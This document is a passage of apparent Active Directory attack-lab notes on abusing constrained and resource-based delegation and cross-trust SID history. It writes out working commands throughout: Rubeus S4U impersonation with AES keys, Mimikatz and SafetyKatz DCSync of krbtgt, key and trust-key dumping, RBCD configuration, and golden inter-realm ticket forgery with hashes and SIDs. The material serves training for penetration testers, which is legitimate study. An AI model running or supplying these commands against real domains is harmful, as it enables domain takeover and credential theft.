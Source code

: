 We can use the following command (We are requesting a TGT and TGS in a single command) -
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b445 /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
After injection, we can run DCSync -
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit" 
Resource based Constrained Delegation -
This moves delegation authority to the resource/service administrator.
Instead of SPNs on msDs-AllowedToDelegatTo on the front-end service like web service, access in this case is controlled by security descriptor of msDS-AllowedToActOnBehalfOfOtherIdentity (visible as PrincipalsAllowedToDelegateToAccount) on the resource/service like SQL Server service.
That is, the resource/service administrator can configure this delegation whereas for other types, SeEnableDelegation privileges are required which are, by default, available only to Domain Admins.
To abuse RBCD in the most effective form, we just need two privileges. -->
Write permissions over the target service or object to configure msDSAllowedToActOnBehalfOfOtherIdentity.
Control over an object which has SPN configured (like admin access to a domain joined machine or ability to join a machine to domain - ms-DSMachineAccountQuota is 10 for all domain users)
We already have admin privileges on student VMs that are domain joined machines.
Enumeration would show that the user 'ciadmin' has Write permissions over the dcorp-mgmt machine!
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
Using the ActiveDirectory module, configure RBCD on dcorp-mgmt for student machines -->
$comps = 'dcorp-student1$','dcorp-student2$'
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps

#PowerView -
Set-DomainRBCD -Identity dcorp-mgmt -DelegateFrom 'dcorp-student1$' 
Get-DomainRBCD
Now, let's get the privileges of dcorp-studentx$ by extracting its AES keys
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 
Use the AES key of dcorp-studentx$ with Rubeus and access dcorpmgmt as ANY user we want -->
Rubeus.exe s4u /user:dcorp-student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt

winrs -r:dcorp-mgmt cmd.exe
BONUS! --> Well known SID for System account - S-1-5-18 (remember)
Child to Parent (Across Trust)
sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed, they get a new SID and the old SID is added to sIDHistory.
sIDHistory can be abused in two ways of escalating privileges within a forest -
krbtgt hash of the child
Trust tickets
So, what is required to forge trust tickets is, obviously, the trust key. Look for [In] trust key from child to parent.
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
or
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
or
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
We can forge and inter-realm TGT -
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:e9ab2e57f6397c19b62476e98e9521ac /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit" 
